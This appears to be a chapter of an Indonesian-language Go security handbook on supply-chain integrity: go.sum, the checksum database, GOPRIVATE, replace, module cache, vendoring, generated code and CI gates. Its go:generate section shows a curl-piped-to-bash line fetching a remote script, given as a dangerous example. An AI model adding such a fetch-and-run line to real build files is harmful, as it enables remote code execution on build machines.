





# learn-go-security-cryptography-integrity-part-032.md

# Go Supply-Chain Security: Modules, `go.sum`, Checksum Database, `GOPROXY`, `GOSUMDB`, `GOPRIVATE`, Private Modules, Dependency Review, and Module-Cache Risk

> Seri: `learn-go-security-cryptography-integrity`  
> Part: `032`  
> Target pembaca: Java software engineer / tech lead yang ingin memahami Go security pada level internal engineering handbook.  
> Fokus: software supply-chain security untuk Go codebase modern sampai Go `1.26.x`.  
> Status seri: belum selesai. Setelah part ini masih ada `part-033` dan `part-034`.

---

## 0. Tujuan Part Ini

Pada part sebelumnya kita sudah membahas security boundary di level aplikasi: HTTP, API authorization, input validation, injection, SSRF, serialization, filesystem, OS boundary, integrity, audit, secrets, privacy, dan availability.

Part ini pindah ke lapisan yang sering diremehkan:

> Bukan hanya **apakah kode kita secure**, tetapi **apakah kode yang kita build benar-benar kode yang kita kira**, dari dependency, toolchain, proxy, cache, CI, sampai artifact production.

Dalam Go, supply chain security punya karakteristik khusus karena:

1. Go memakai module system yang relatif deterministic.
2. `go.sum` menyimpan cryptographic hashes untuk module content yang pernah diverifikasi.
3. Go punya checksum database publik untuk memverifikasi module public.
4. `GOPROXY`, `GOSUMDB`, `GOPRIVATE`, `GONOPROXY`, dan `GONOSUMDB` memengaruhi apakah module path bocor ke infrastruktur publik atau tidak.
5. Go binary umumnya statically linked, tetapi build tetap bergantung pada toolchain, module cache, generated code, cgo/native libs, linker flags, container base image, dan CI identity.
6. `govulncheck` memberi reachability-aware vulnerability analysis, bukan sekadar daftar CVE dependency.

Tujuan part ini adalah membuat kamu mampu menjawab pertanyaan berikut secara defensible:

- Dari mana source code dependency datang?
- Bagaimana kita tahu dependency tidak berubah diam-diam?
- Apa fungsi `go.sum` dan apa yang **tidak** dijamin olehnya?
- Kapan `GOPRIVATE` wajib dikonfigurasi?
- Bagaimana private module bisa bocor ke public proxy/checksum database?
- Bagaimana membedakan dependency update yang aman vs mencurigakan?
- Bagaimana membuat CI/CD gate untuk Go supply chain tanpa membunuh velocity?
- Bagaimana mengelola module cache, vendor directory, SBOM, provenance, dan artifact signing?
- Bagaimana membuat software supply-chain review yang realistis untuk sistem regulatori?

---

## 1. Mental Model: Supply Chain Bukan “Dependency List”

Banyak engineer menyamakan supply chain dengan `go.mod`.

Itu terlalu sempit.

Dalam production system, supply chain adalah seluruh jalur dari niat developer sampai binary berjalan:



Setiap edge adalah trust decision.

Jika salah satu edge bisa dimanipulasi, binary production bisa berubah tanpa reviewer sadar.

---

## 2. Perbedaan Java/Maven Mindset vs Go Module Mindset

Sebagai Java engineer, kamu mungkin terbiasa dengan Maven/Gradle ecosystem:

- artifact `.jar`, `.pom`, transitive dependency resolution,
- repository seperti Maven Central/Nexus/Artifactory,
- lockfile biasanya tidak native di Maven klasik,
- dependency tree bisa dipengaruhi plugin, profile, classifier, BOM,
- build plugin bisa menjalankan arbitrary code,
- generated code dan annotation processor sering menjadi bagian build.

Go berbeda dalam beberapa hal:

| Area | Java Maven/Gradle | Go Modules |
|---|---|---|
| Unit distribusi | artifact binary/source jar | module version, source zip, VCS-derived module |
| Version identity | group/artifact/version | module path + semantic version |
| Locking/integrity | bervariasi, lockfile tergantung tool | `go.sum` berisi hashes module content/go.mod |
| Proxy default | repo configured | `GOPROXY` default biasanya public proxy lalu direct fallback tergantung environment |
| Checksum DB | tidak selalu bawaan | `GOSUMDB` untuk module publik |
| Build plugin | sangat umum | lebih sedikit, tetapi `go generate`, cgo, tool dependencies tetap risk |
| Runtime packaging | JAR/WAR/container | single binary/container, tapi tetap punya runtime deps saat cgo/base image |
| Vulnerability scanning | dependency-based | `govulncheck` bisa call-graph/reachability-aware |

Go memberi supply-chain primitive yang kuat, tetapi bukan otomatis aman. Kamu tetap harus mengatur policy.

---

## 3. Threat Model Supply Chain Go

### 3.1 Asset

Asset utama:

- source code aplikasi,
- private module source,
- `go.mod`, `go.sum`, `vendor/`, generated files,
- CI credentials,
- module proxy credentials,
- artifact registry credentials,
- signing keys,
- SBOM/provenance metadata,
- production binary/container image,
- build logs,
- module cache/build cache.

### 3.2 Attacker capability

Attacker mungkin:

1. Mengambil alih akun maintainer dependency public.
2. Melakukan typosquatting module path.
3. Mengubah tag Git setelah consumer mengambil version.
4. Mengompromikan private Git repo.
5. Mengompromikan CI runner.
6. Menyuntikkan dependency via PR.
7. Menyuntikkan generated code.
8. Mengeksfiltrasi private module path melalui public proxy/checksum DB.
9. Mengeksfiltrasi secrets dari build logs.
10. Menggunakan stale vulnerable dependency yang reachable.
11. Mengubah artifact setelah build sebelum deploy.
12. Memanfaatkan module cache yang poisoned atau shared antar job.

### 3.3 Security invariants

Minimal invariants:

```text
Invariant 1: Production binary dibangun dari commit yang reviewed dan approved.
Invariant 2: Dependency version yang dipakai adalah versi yang terlihat di review.
Invariant 3: Public module content diverifikasi terhadap checksum yang trusted.
Invariant 4: Private module path tidak bocor ke public proxy/checksum DB.
Invariant 5: CI job tidak menerima secret yang tidak dibutuhkan.
Invariant 6: Build artifact tidak bisa diganti tanpa deteksi.
Invariant 7: Vulnerability reachable diprioritaskan dan ditangani dengan SLA jelas.
Invariant 8: Generated code dan tool dependency ikut direview, bukan dianggap “noise”.
Invariant 9: Runtime artifact dapat ditelusuri ke source commit, build run, dependency set, dan policy decision.
```

---

## 4. Go Module Trust Model

### 4.1 Identitas module

Go module diidentifikasi oleh:

```text
module path + version
```

Contoh:

```go
module example.com/payment-service

require (
    github.com/google/uuid v1.6.0
    golang.org/x/crypto v0.40.0
)
```

`github.com/google/uuid v1.6.0` bukan hanya nama package. Itu adalah janji bahwa:

- module path adalah `github.com/google/uuid`,
- version adalah `v1.6.0`,
- content zip untuk version itu memiliki hash tertentu,
- `go.sum` menyimpan hash yang pernah diverifikasi,
- checksum database dapat membantu memastikan module publik tidak berubah diam-diam.

### 4.2 `go.mod` bukan lockfile penuh

`go.mod` mendeskripsikan module dan requirement. Tapi untuk build reproducibility, kamu juga perlu memahami:

- Minimal Version Selection,
- indirect dependencies,
- `replace`,
- `exclude`,
- `retract`,
- toolchain line,
- workspace `go.work`,
- `vendor/` jika dipakai,
- generated code,
- build tags,
- cgo/native libraries,
- environment variables.

### 4.3 Minimal Version Selection

Go memakai Minimal Version Selection atau MVS.

Mental model sederhana:

> Go memilih versi minimum dari setiap module yang memenuhi seluruh requirement graph, bukan selalu versi terbaru.

Implikasinya:

- Menambahkan dependency baru bisa menaikkan versi transitive dependency.
- Menghapus dependency belum tentu langsung menurunkan dependency lain.
- `go mod tidy` penting untuk membersihkan graph.
- Update transitive dependency perlu difahami lewat `go mod graph` atau `go mod why`.

Contoh:

```bash
go mod graph
go mod why -m golang.org/x/crypto
go list -m all
go list -m -u all
```

---

## 5. `go.sum`: Apa yang Dijamin dan Tidak Dijamin

### 5.1 Fungsi `go.sum`

`go.sum` menyimpan cryptographic hashes untuk module versions dan `go.mod` files yang pernah dipakai/verifikasi.

Contoh bentuk:

```text
github.com/google/uuid v1.6.0 h1:...
github.com/google/uuid v1.6.0/go.mod h1:...
```

Secara praktis, `go.sum` membantu menjawab:

> “Apakah module content yang saya download hari ini sama dengan content yang sebelumnya sudah saya percaya?”

### 5.2 `go.sum` bukan daftar dependency aktif

Ini salah kaprah umum.

`go.sum` bisa berisi hash module yang tidak lagi aktif setelah dependency berubah. Ia menyimpan hash yang pernah dibutuhkan untuk verifikasi module graph.

Untuk daftar dependency aktif, gunakan:

```bash
go list -m all
go mod graph
go mod why -m <module>
```

### 5.3 `go.sum` bukan security review

`go.sum` membuktikan content consistency, bukan intent.

Jika dependency malicious sudah masuk sejak awal, hash-nya tetap konsisten.

Artinya:

| Kontrol | Menjawab |
|---|---|
| `go.sum` | “Apakah content berubah?” |
| checksum DB | “Apakah public module content sesuai log yang globally auditable?” |
| code review | “Apakah dependency layak dipakai?” |
| vulnerability scanning | “Apakah dependency punya known vulnerability?” |
| provenance/signing | “Apakah artifact berasal dari build yang sah?” |
| runtime controls | “Apa blast radius jika dependency malicious?” |

---

## 6. Go Checksum Database

### 6.1 Masalah yang diselesaikan

Tanpa checksum database, public module author atau VCS host yang compromised bisa mengubah tag/version setelah consumer mengambilnya.

Checksum database memberi log publik yang membantu mendeteksi perubahan content module publik.

### 6.2 Alur verifikasi sederhana



Catatan penting:

- Jika proxy mirror checksum database, `go` command dapat memakai mirror tersebut.
- Jika module dianggap private via `GOPRIVATE` atau `GONOSUMDB`, go command tidak meminta checksum publik untuk module itu.
- Jika `GOSUMDB=off`, verifikasi checksum DB dimatikan; ini harus menjadi keputusan security sadar, bukan default sembarangan.

### 6.3 Apa yang tidak dijamin checksum DB

Checksum database tidak menjamin:

- dependency tersebut tidak malicious,
- maintainer tidak compromised sebelum release,
- source code dependency bebas vulnerability,
- build artifact sama dengan source,
- private module aman,
- generated code tidak berubah,
- CI runner tidak compromised.

Ia adalah kontrol integrity, bukan full trust oracle.

---

## 7. `GOPROXY`, `GOSUMDB`, `GOPRIVATE`, `GONOPROXY`, `GONOSUMDB`

### 7.1 Variable utama

| Variable | Fungsi |
|---|---|
| `GOPROXY` | Menentukan module proxy chain, misalnya `https://proxy.golang.org,direct` |
| `GOSUMDB` | Menentukan checksum database, default public sumdb untuk public modules |
| `GOPRIVATE` | Pattern module path yang private; menjadi default untuk `GONOPROXY` dan `GONOSUMDB` |
| `GONOPROXY` | Pattern module yang tidak memakai proxy |
| `GONOSUMDB` | Pattern module yang tidak memakai checksum DB |
| `GOINSECURE` | Pattern yang mengizinkan insecure transport/checksum behavior; harus sangat dibatasi |

### 7.2 Private module leakage

Kasus klasik:

```bash
go get git.company.internal/platform/secretlib@v1.2.3
```

Jika `GOPRIVATE` belum diset, go command bisa mencoba public proxy atau public checksum database terlebih dahulu. Akibatnya, path private module bisa bocor sebagai lookup request.

Contoh konfigurasi:

```bash
go env -w GOPRIVATE=git.company.internal/*
go env -w GONOSUMDB=git.company.internal/*
go env -w GONOPROXY=git.company.internal/*
```

Biasanya cukup:

```bash
go env -w GOPRIVATE=git.company.internal/*
```

Karena `GOPRIVATE` menjadi default untuk `GONOPROXY` dan `GONOSUMDB`.

Namun organisasi besar sering tetap mengatur semuanya eksplisit di CI agar audit jelas.

### 7.3 Enterprise proxy pattern

Untuk organisasi regulated, pattern yang lebih defensible:

```text
Developer/CI -> Internal Go Proxy -> Approved upstream/proxy/source
                         |
                         +-> internal policy/cache/audit
```



Keuntungan:

- audit semua dependency fetch,
- cache stabil,
- policy allow/deny centralized,
- private module tidak bocor,
- dependency provenance lebih jelas,
- CI tidak perlu akses internet langsung.

Risiko:

- internal proxy menjadi critical trust anchor,
- proxy cache poisoning harus dicegah,
- credential separation wajib,
- disaster recovery perlu disiapkan,
- update latency perlu dikelola.

---

## 8. Module Path, Semantic Import Versioning, and Typosquatting

### 8.1 Semantic import versioning

Go module major version `v2+` biasanya harus muncul di module path.

Contoh:

```go
module github.com/acme/payment/v2
```

Import:

```go
import "github.com/acme/payment/v2/client"
```

Supply-chain implication:

- `github.com/acme/payment` dan `github.com/acme/payment/v2` adalah module path berbeda.
- Salah path bisa menyebabkan dependency lain masuk.
- Review harus melihat module path, bukan hanya repository name.

### 8.2 Typosquatting

Contoh risiko:

```text
github.com/golang-jwt/jwt/v5        // expected
github.com/golangjwt/jwt/v5         // suspicious
github.com/golnag-jwt/jwt/v5        // typo
github.com/company-internal/auth    // expected
github.com/company/auth             // maybe public lookalike
```

Review heuristic:

- Apakah module path resmi dari project?
- Apakah README/import path konsisten?
- Apakah maintainer jelas?
- Apakah repo berpindah owner?
- Apakah stars/downloads bukan satu-satunya indikator?
- Apakah release tag sesuai module path?
- Apakah license sesuai?

---

## 9. `replace`: Kekuatan Besar, Risiko Besar

### 9.1 Fungsi `replace`

`replace` mengarahkan module requirement ke lokasi atau versi lain.

Contoh development lokal:

```go
replace company.internal/platform/auth => ../auth
```

Contoh fork:

```go
replace github.com/vendor/lib => github.com/company/lib-fork v1.2.3-company.1
```

### 9.2 Risiko `replace`

`replace` bisa:

- menyembunyikan dependency asli,
- membuat CI build berbeda dari local build,
- mengarah ke local path yang tidak ada di CI,
- mengarah ke fork yang tidak direview,
- menjadi bypass untuk dependency policy,
- membuat SBOM membingungkan jika tidak ditangani.

### 9.3 Policy yang disarankan

Untuk production repo:

```text
Rule 1: No local-path replace in default branch.
Rule 2: Fork replace wajib punya issue/ticket, owner, expiry date, dan migration plan.
Rule 3: Replace untuk security patch harus diberi annotation di go.mod comment atau SECURITY.md.
Rule 4: CI harus gagal jika menemukan replace tidak di-allowlist.
```

Contoh script sederhana:

```bash
if go list -m -json all | jq -e 'select(.Replace != null)'; then
  echo "Found module replacements. Verify allowlist."
  exit 1
fi
```

Untuk enterprise, jangan hanya fail semua `replace`; lebih baik allowlist berbasis policy.

---

## 10. `exclude` dan `retract`

### 10.1 `exclude`

`exclude` mencegah module version tertentu dipilih.

Contoh:

```go
exclude github.com/acme/lib v1.2.3
```

Supply-chain use case:

- version diketahui broken,
- version mengandung vulnerability,
- version compromised,
- version incompatible dengan policy.

### 10.2 `retract`

Module author bisa menandai version sebagai retracted.

Supply-chain implication:

- Retraction adalah sinyal penting, tetapi consumer tetap perlu policy.
- CI bisa memeriksa update/retraction dengan `go list -m -u -retracted all`.

Contoh:

```bash
go list -m -u -retracted all
```

Policy:

```text
Retracted dependency in production path must trigger review.
```

---

## 11. Toolchain as Dependency

Go modern punya `go` dan `toolchain` lines di `go.mod`.

Contoh:

```go
go 1.26

toolchain go1.26.4
```

Mental model:

> Toolchain adalah bagian dari supply chain. Compiler, linker, standard library, and runtime are not invisible.

Risiko:

- local developer memakai toolchain berbeda dari CI,
- CI auto-download toolchain tanpa policy,
- security fixes Go minor release tidak diadopsi,
- build output berubah karena compiler/runtime behavior,
- GODEBUG default berubah antar versi.

Policy yang disarankan:

```text
1. Pin minimum Go version in go.mod.
2. CI uses approved Go toolchain image/version.
3. Security release monitoring for Go minor releases.
4. Build metadata records go version.
5. Production binary exposes build info safely.
```

Command:

```bash
go version
go env GOVERSION
go version -m ./bin/service
```

`go version -m` berguna untuk membaca module/build info dari binary Go.

---

## 12. Dependency Inventory

### 12.1 Basic inventory

```bash
go list -m all
```

Output ini adalah dependency module aktif.

Untuk JSON:

```bash
go list -m -json all
```

### 12.2 Dependency graph

```bash
go mod graph
```

Gunakan untuk memahami transitive dependency.

### 12.3 Why dependency exists

```bash
go mod why -m github.com/some/module
```

Ini penting untuk PR review:

> “Dependency ini dipakai karena fitur apa? Direct atau transitive? Apakah masih perlu?”

### 12.4 Package-level dependency

```bash
go list -deps ./...
```

Untuk vulnerability reachability, part 033 akan membahas `govulncheck` secara lebih detail.

---

## 13. Dependency Review Checklist

Setiap PR yang menambah/mengubah dependency harus menjawab:

```markdown
## Dependency Review

- Module path:
- Version:
- Direct or transitive:
- Purpose:
- Alternative considered:
- Is standard library enough?
- Maintainer/repo:
- License:
- Release activity:
- Security policy present:
- Tagged release:
- Does it use cgo:
- Does it execute external processes:
- Does it parse untrusted input:
- Does it handle crypto/auth/session:
- Does it introduce network calls:
- Does it introduce code generation:
- Vulnerability scan result:
- OpenSSF Scorecard or equivalent reviewed:
- Blast radius if compromised:
- Owner/team:
- Upgrade plan:
```

### 13.1 Dependency risk classes

| Class | Example | Review depth |
|---|---|---|
| Utility pure-Go small lib | UUID, retry helper | moderate |
| Parser | YAML/XML/archive/PDF/image | high |
| Crypto/auth/session | JWT, OIDC, password, TLS helper | very high |
| Network client/server | HTTP/gRPC/proxy | high |
| Code generator | OpenAPI/protobuf/ORM generator | high |
| Build tool | linter/generator/releaser | high |
| cgo/native | database driver/native compression | very high |
| Observability agent | tracing/logging exporter | high |
| Serialization framework | protobuf/json/yaml | high |

---

## 14. Private Modules

### 14.1 Requirements

A private module system needs:

- private source host,
- auth mechanism for developers and CI,
- `GOPRIVATE` config,
- internal proxy or direct access policy,
- non-leaking logs,
- credential rotation,
- module path naming convention,
- review process for cross-team shared modules.

### 14.2 Naming convention

Good:

```text
git.company.internal/platform/auth
git.company.internal/regulatory/case-core
git.company.internal/shared/observability
```

Risky:

```text
github.com/company-secret/auth
example.com/internal/project-x-secret
```

Naming leak matters. Even module path can reveal:

- client name,
- product codename,
- security-sensitive capability,
- internal architecture,
- agency/regulatory domain.

### 14.3 Private module CI pattern

```bash
export GOPRIVATE='git.company.internal/*'
export GOPROXY='https://go-proxy.company.internal,direct'
export GONOSUMDB='git.company.internal/*'
export GONOPROXY='git.company.internal/*'
```

If internal proxy handles private modules, `GONOPROXY` may be different:

```bash
export GOPROXY='https://go-proxy.company.internal'
export GOPRIVATE='git.company.internal/*'
export GONOSUMDB='git.company.internal/*'
export GONOPROXY='none'
```

The exact config depends on architecture.

Security rule:

> Do not copy-paste Go env config blindly. Draw the flow: which host receives which module path?

---

## 15. Module Cache Risk

### 15.1 What is module cache?

Go downloads modules into module cache, usually under:

```bash
go env GOMODCACHE
```

Build cache:

```bash
go env GOCACHE
```

### 15.2 Risks

| Risk | Example |
|---|---|
| Shared cache poisoning | untrusted PR job shares cache with protected branch job |
| Stale dependency | cache hides upstream availability/policy changes |
| Secret leakage | private module source remains in cache/artifacts |
| Cross-tenant leak | CI runners reuse workspace/cache across projects |
| Disk forensic exposure | private source available on runner disk |
| Non-hermetic build | build works only because cache contains missing artifact |

### 15.3 CI cache policy

Recommended:

```text
1. Separate cache by trust level: PR from fork != protected branch != release build.
2. Do not restore privileged cache into untrusted job.
3. Clean workspace after job.
4. Avoid uploading GOMODCACHE as public artifact.
5. Prefer internal module proxy for dependency caching over broad CI cache sharing.
6. For release builds, consider clean module cache + deterministic dependency fetch.
```

Commands:

```bash
go clean -modcache
```

But do not run this blindly in every job if it destroys performance; prefer trust-separated caching.

---

## 16. Vendoring

Go supports vendoring:

```bash
go mod vendor
go build -mod=vendor ./...
```

### 16.1 When vendoring helps

Vendoring helps when:

- air-gapped build,
- regulated review requires exact source snapshot,
- upstream availability risk is unacceptable,
- internal policy wants dependency diff inside PR,
- build should not access internet.

### 16.2 Vendoring risks

Vendoring can hurt when:

- vendored code is stale,
- security update ignored,
- diff noise overwhelms review,
- generated vendor changes are not checked,
- vendor tree hides module provenance.

### 16.3 Policy

If using vendor:

```text
1. vendor/modules.txt must be committed.
2. CI builds with -mod=vendor.
3. A bot regenerates vendor on dependency PR.
4. Dependency review checks go.mod + go.sum + vendor diff.
5. Vulnerability scan still runs against module graph.
```

---

## 17. Generated Code as Supply Chain

Generated code is code.

Examples:

- Protobuf generated `.pb.go`,
- OpenAPI generated clients/servers,
- SQLC generated code,
- mock generators,
- stringer,
- GraphQL generated code,
- code from templates.

Risk:

- generator compromised,
- schema malicious,
- generated code not reviewed,
- generator version not pinned,
- local generated output differs from CI,
- generated code includes unsafe deserialization or auth bypass.

Policy:

```text
1. Pin generator versions.
2. Put generator tools in tools.go or dedicated tool module.
3. CI verifies generated code is up to date.
4. Generated code that crosses security boundary must be reviewed semantically.
5. Do not allow network access during generation unless justified.
```

Example `tools.go` pattern:

```go
//go:build tools

package tools

import (
    _ "google.golang.org/protobuf/cmd/protoc-gen-go"
    _ "google.golang.org/grpc/cmd/protoc-gen-go-grpc"
)
```

Then pin versions in `go.mod`.

---

## 18. `go generate` Risk

`go generate` runs commands described in comments.

Example:

```go
//go:generate sh -c "curl https://example.com/script.sh | bash"
```

This is obviously dangerous, but more subtle cases exist.

Review rules:

```text
1. Treat go:generate as build-time code execution.
2. No curl|bash.
3. No unpinned remote script.
4. No shell when direct executable invocation is enough.
5. Generated output must be deterministic or explain why not.
6. CI should run generation in restricted environment.
```

Search:

```bash
grep -R "go:generate" -n .
```

---

## 19. cgo and Native Dependency Supply Chain

Even if Go code is pure by default, cgo changes the model.

Risks:

- native library CVEs,
- dynamic linking surprise,
- system package drift,
- compiler/linker flags injection,
- memory corruption,
- ABI mismatch,
- container image dependency risk,
- FIPS/OpenSSL assumptions.

Policy:

```text
1. Prefer pure-Go dependency where security/performance acceptable.
2. If cgo is required, document native libraries and versions.
3. Scan OS packages in container image.
4. Record dynamic dependencies.
5. Use minimal runtime image with explicit packages.
6. Pin base image by digest.
7. Avoid build image == runtime image unless justified.
```

Commands:

```bash
go env CGO_ENABLED
ldd ./bin/service || true
file ./bin/service
```

For static pure-Go Linux build:

```bash
CGO_ENABLED=0 GOOS=linux GOARCH=amd64 go build -trimpath -o bin/service ./cmd/service
```

But do not assume `CGO_ENABLED=0` is always possible; database drivers, Kerberos, SQLite, image libraries, or FIPS integrations may require native components.

---

## 20. Build Reproducibility and Build Metadata

### 20.1 Deterministic-ish build

Go builds are often reproducible under controlled conditions, but production-grade reproducibility requires controlling:

- Go toolchain version,
- OS/arch,
- `CGO_ENABLED`,
- build tags,
- linker flags,
- source path leakage,
- generated code,
- environment variables,
- module graph,
- module cache/proxy,
- timestamp/version embedding,
- container base image.

Common flags:

```bash
go build \
  -trimpath \
  -buildvcs=true \
  -ldflags "-s -w -X main.version=${VERSION} -X main.commit=${COMMIT} -X main.buildTime=${BUILD_TIME}" \
  -o bin/service \
  ./cmd/service
```

### 20.2 `-trimpath`

`-trimpath` removes local filesystem paths from binary/debug info. It helps reduce leakage and improve reproducibility.

### 20.3 `-buildvcs`

Go can embed VCS information when building from a repository. That is useful for traceability.

Check:

```bash
go version -m ./bin/service
```

Production rule:

```text
Every deployed artifact must be traceable to:
- source repository,
- commit SHA,
- branch/tag,
- Go toolchain version,
- module graph hash/SBOM,
- CI run ID,
- build policy result.
```

---

## 21. Artifact Integrity

Dependency integrity is not enough. Artifact integrity asks:

> Is the binary/container deployed to production exactly the artifact produced by the approved CI build?

Controls:

- immutable artifact registry,
- image digest pinning,
- artifact signing,
- provenance attestation,
- deployment policy verifying signature/provenance,
- no rebuild-on-deploy from mutable branch,
- no manual artifact replacement.



A strong invariant:

```text
Production never deploys from source branch directly.
Production deploys immutable artifact digest that passed policy.
```

---

## 22. SBOM for Go

SBOM atau Software Bill of Materials adalah inventory komponen software yang membentuk artifact.

For Go, SBOM should include:

- main module,
- direct and transitive modules,
- versions,
- licenses,
- checksums if available,
- toolchain version,
- VCS commit,
- container base image packages,
- cgo/native deps if any,
- generated code tools if material,
- vulnerability references if part of VEX workflow.

Formats:

- CycloneDX,
- SPDX.

Practical rule:

```text
SBOM without policy is inventory.
SBOM with ownership, vulnerability SLA, and provenance becomes a control.
```

---

## 23. SLSA, Provenance, and Go

SLSA is a framework for improving software supply-chain integrity.

For Go teams, the useful mental model is:

```text
Source integrity + Build integrity + Dependency integrity + Artifact integrity + Provenance
```

Implementation path:

| Step | Goal |
|---|---|
| Level 0 reality | Manual build, weak traceability |
| Step 1 | CI builds all release artifacts |
| Step 2 | Build metadata/provenance generated |
| Step 3 | Artifact signed |
| Step 4 | Deployment verifies signature/provenance |
| Step 5 | Build environment hardened and isolated |
| Step 6 | Dependency policy enforced before build |

Do not chase maturity labels blindly. Start with invariants.

---

## 24. OpenSSF Scorecard and Dependency Health

OpenSSF Scorecard can evaluate open source repository security practices through automated checks.

Useful signals:

- branch protection,
- CI tests,
- dangerous workflow patterns,
- pinned dependencies,
- security policy,
- maintained activity,
- signed releases,
- token permissions.

But treat score as signal, not verdict.

A dependency with high score can still be vulnerable. A dependency with lower score can be acceptable if small, audited, and isolated.

Decision model:

```text
Risk = capability of dependency × exposure × maintainer trust × update velocity × replaceability × blast radius
```

---

## 25. CI/CD Supply-Chain Gates for Go

A practical Go CI pipeline:



### 25.1 `go mod tidy` gate

```bash
go mod tidy
git diff --exit-code go.mod go.sum
```

Meaning:

> PR must not leave module metadata inconsistent.

### 25.2 Dependency diff gate

```bash
git diff origin/main...HEAD -- go.mod go.sum
```

Policy:

```text
Any go.mod/go.sum change requires dependency review label.
```

### 25.3 Vulnerability gate

Part 033 will go deep on `govulncheck`, but baseline:

```bash
go install golang.org/x/vuln/cmd/govulncheck@latest
govulncheck ./...
```

For stable CI, pin tool version instead of `@latest`.

### 25.4 Build info gate

```bash
go version -m ./bin/service
```

Validate toolchain and module info.

---

## 26. PR Review Patterns for Dependency Changes

### 26.1 Red flags

- New dependency for trivial functionality.
- Large dependency tree for small task.
- Crypto/auth/session dependency without security review.
- Parser dependency for untrusted input without limits/fuzzing.
- `replace` added without explanation.
- `go.sum` changes without `go.mod` explanation.
- Dependency version jump across major versions.
- Module path typo or unexpected owner.
- Package import from abandoned repository.
- `go generate` added.
- cgo introduced.
- Build tags introduced.
- `GONOSUMDB=*` or `GOSUMDB=off` in CI.
- Dockerfile installs compiler/toolchain at runtime image.

### 26.2 Required review questions

```text
1. What capability does this dependency introduce?
2. Does this dependency process untrusted input?
3. Does it perform network calls?
4. Does it execute commands?
5. Does it handle crypto/auth/session/secrets?
6. What is the transitive dependency delta?
7. Is stdlib enough?
8. Can dependency be isolated behind an interface?
9. What is migration/rollback plan?
10. What is patch SLA if vulnerability appears?
```

---

## 27. Build Tags and Conditional Code

Go build tags can change compiled code.

Example:

```go
//go:build linux && cgo
```

Risks:

- security check exists only in one build tag,
- tests run without production tags,
- cgo enabled in production but not test,
- FIPS/non-FIPS builds differ,
- enterprise build tags hide behavior.

Policy:

```text
1. Production build tags documented.
2. CI tests with production tags.
3. Security-critical files have tag review.
4. No hidden auth bypass under debug/dev tags.
```

Command:

```bash
go list -json -tags 'prod' ./...
```

---

## 28. Workspaces: `go.work` Risk

Go workspace can combine multiple modules locally.

Risks:

- local workspace masks dependency version,
- developer tests against local sibling module not reflected in CI,
- accidental commit of `go.work` changes workflow,
- production build differs from local build.

Policy:

```text
1. Decide whether go.work is committed or local-only.
2. CI must explicitly ignore or use workspace by policy.
3. Release builds should be deterministic and documented.
```

Command:

```bash
go env GOWORK
```

For CI:

```bash
GOWORK=off go test ./...
```

when you want module-only behavior.

---

## 29. Go Environment Hardening in CI

Recommended baseline for many enterprise CI builds:

```bash
export GOPROXY="https://go-proxy.company.internal"
export GOPRIVATE="git.company.internal/*"
